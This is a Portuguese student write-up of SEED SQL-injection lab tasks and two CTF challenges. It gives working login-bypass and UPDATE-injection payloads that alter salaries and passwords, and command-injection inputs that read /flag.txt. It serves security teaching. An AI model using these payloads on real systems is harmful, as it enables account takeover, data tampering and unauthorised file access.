 # Trabalho realizado na Semana #8 e #9

## Tarefa 1.1

Para obter os dados de Alice, foi usado o seguinte comando de SQL:

```sql
select * from credential where Name='Alice';
```
![/imgs8/alice_local_sql.png](/imgs8/alice_local_sql.png)

## Tarefa 2.1

O objetivo desta tarefa é fazer um ataque a uma web app que se encontra em www.seed-server.com através de SQL Injection. Ao entrar neste site deparamo-nos com um campo de input de username e de password. O objetivo é realizar o login com a conta de admin, da qual não se conhece a password. O campo password é protegido por hashing o que indica que a injeção deverá ser feita no campo username. Dois inputs diferentes foram testados que resultaram no sucesso do login na conta de admin:

- admin'; #
- admin' or ''='

O primeiro faz uso de comentários para que a validação da password não seja feita e o segundo usa uma injeção de um or que faz com que a comparação dê sempre verdadeiro.

![/imgs8/profile_login_2.png](/imgs8/profile_login_2.png)

![/imgs8/profile_login_1.png](/imgs8/profile_login_1.png)

Após o login como admin ser realizado com sucesso o que obtemos é uma tabela com informações sobre os utilizadores.

![/imgs8/admin_page.png](/imgs8/admin_page.png)

## Tarefa 2.2

O objetivo continua a ser ganhar acesso da conta de admin mas desta vez através da consola e não da webpage.

Para tal foi usado o comando:
```sh
$ curl 'http://www.seed-server.com/unsafe_home.php?username=admin%27%3B+%23&Password=a' > test.html
```

Ao abrir test.html, ficheiro para o qual foi passado o resultado do curl, obtem-se o seguinte:

![/imgs8/admin_local_html.png](/imgs8/admin_local_html.png)

## Tarefa 2.3

O objetivo era verificar que existe uma defesa que impede que uma query nova seja injetada através dos mesmos campos usados anteriormente. Para verificar tal foi usado o seguinte input:

```sql
admin'; DELETE FROM credential WHERE name='Alice'; #
```

Que tinha como objetivo apagar da tabela de credenciais a informação da Alice, no entanto tal não foi possível e o resultado foi o seguinte:

![/imgs8/query_failed.png](imgs8/query_failed.png)

Não é possível injetar mais *SQL statements* graça à proteção conseguida através uso da extensão *mysqli* para *PHP*. *mysqli* oferece tanto *query()* como *multi_query()*, o primeiro por motivos de segurança apenas permite que a primeira query seja executada, já o segundo permite a execução de várias queries e é portanto menos seguro.


## Tarefa 3.1

Primeiro é necessário fazer login na conta da alice, tal foi conseguido com uma password arbitrária e o seguinte input de username:

```sql
alice' #
```
![/imgs8/alice_profile.png](/imgs8/alice_profile.png)

Podemos agora editar o perfil da Alice. Fez-se uso do campo nickname para realizar o ataque, sendo este o input:

```sql
', salary=80000, nickname='
```

Ficando o perfil da Alice com os seguintes valores.

![/imgs8/alice_profile_res.png](/imgs8/alice_profile_res.png)

## Tarefa 3.2

Agora para alterar o salario temos  de 'alterar' o campo WHERE a query de SQL, sendo o input:

```sql
', salary=1 WHERE name='Boby'; #
```

Podemos confirmar que o salário de Boby foi efetivamente atualizado:

![/imgs8/boby_salary.png](/imgs8/boby_salary.png)

## Tarefa 3.3

Para conseguirmos mudar a password de outra pessoa vamos ter de usar dois campos diferentes.
Tal é necessário porque o ataque não pode ser feito diretamente no campo password pois o código faz hash desta password e guarda então esta hash.

Foi utilizado o campo *Phone Number* pois este é o único que aparece após o campo password na query de SQL em PHP.

```php
$hashed_pwd = sha1($input_pwd);
$sql = "UPDATE credential SET
    nickname=’$input_nickname’,
    email=’$input_email’,
    address=’$input_address’,
    Password=’$hashed_pwd’,
    PhoneNumber=’$input_phonenumber’
    WHERE ID=$id;";
$conn->query($sql);
```

A password foi mudada para 'alicerocks' e o input do *Phone Number* foi:
```sql
' WHERE name='Boby'; #
```

Agora é então possível fazer login na conta de Boby com a nova password.

![/imgs8/boby_profile.png](/imgs8/boby_profile.png)


# CTF #8 e #9

## Desafio 1

No acesso à página web fornecida para o desafio é apresentado um formulário de login e um link para logout. Fica claro que a primeira abordagem para procurar e explorar uma vulnerabilidade será no formulário.

Ao analisar o código fonte é possível notar que não há sanitização entre o input do formulário e query de sql que verifica o login. Isto é a vulnerabilidade que será explorada e usada para um ataque.

Esta vulnerabilidade permite então um ataque recorrendo a SQL injection:

![/imgs8/ctf1_1.png](/imgs8/ctf1_1.png)

Este método é muito semelhante ao que foi usado na tarefa 2.1, sendo a unica diferença a sintaxe de SQL usada.

![/imgs8/ctf1_2.png](/imgs8/ctf1_2.png)

Conseguimos assim aceder ao cofre e obter a flag:

```
flag{3970fbb4af4d7e800b6104bb768fd072}
```

## Desafio 2

As funcionalidades disponíveis ao utilizador sem estar autenticado são a de fazer login através de um formulário, obter um speed report da nossa rede atual e a possibilidade de fazer ping a um host.

O formulário aparenta estar protegido e não parece ser provável que este revele uma vulnerabilidade que possa ser explorada.

O speed report também não parece ser promissor visto que o único input que recebe do utilizador é um click num botão. Resta então o ping a um host.

Seguindo a dica dada no enunciado deste desafio, será prudente apostar que o servidor esteja a fazer algo parecido com uma system call ou mesmo que os inputs sejam passados a, por exemplo, uma bash de linux.

Primeiro irá ser usado o seguinte input de modo a termos método de comparação.

```
127.0.0.1
```

Este foi o resultado:

![/imgs8/ctf2_1.png](/imgs8/ctf2_1.png)

E agora com :

```
127.0.0.1; whoami
```

O resultado que é esperado é que seja possível fazer ping ao localhost (127.0.0.1) e também obter o user name associado ao uid associado ao processo encarregue de lidar com estes inputs.

![/imgs8/ctf2_2.png](/imgs8/ctf2_2.png)

Conclui-se que é possível fazer a injeção de comandos de consola.

Agora para tentar capturar a flag sabemos que precisamos chegar ao ficheiro flag.txt. O comando *cat* concatena ficheiros e imprime-os no *stdout*.

```
127.0.0.1; cat /flag.txt
```

![/imgs8/ctf2_3.png](/imgs8/ctf2_3.png)

Conseguimos então chegar à flag:

```
flag{3e0d6f00000e611a9c15aeb018dad2d4}
```
